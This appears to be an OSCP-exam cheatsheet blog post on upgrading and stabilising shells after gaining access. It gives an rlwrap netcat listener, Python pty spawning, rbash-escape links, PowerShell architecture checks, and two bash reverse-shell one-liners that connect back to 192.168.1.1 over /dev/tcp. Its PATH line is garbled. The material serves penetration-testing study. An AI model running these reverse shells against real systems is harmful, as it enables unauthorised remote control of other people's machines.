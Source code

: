 ```yaml
---
title: Upgrading and Improving Shells
author: linatl
category: "OSCP"
date: "2021-03-08 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### TMUX
```

```


###### Tricks to improve a crappy shell
```
rlwrap
> rlwrap -r nc -nvlp 443
```

###### Upgrading Shells
```
Upgrade sh to bash using python (2 or 3)
> python -c 'import pty; pty.spawn("/bin/sh")'
> python -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
> export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
> /bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1
> /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1'

```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
> [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
> [Environment]::Is64BitProcess

alternative to check arch in ps environment:
> [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```
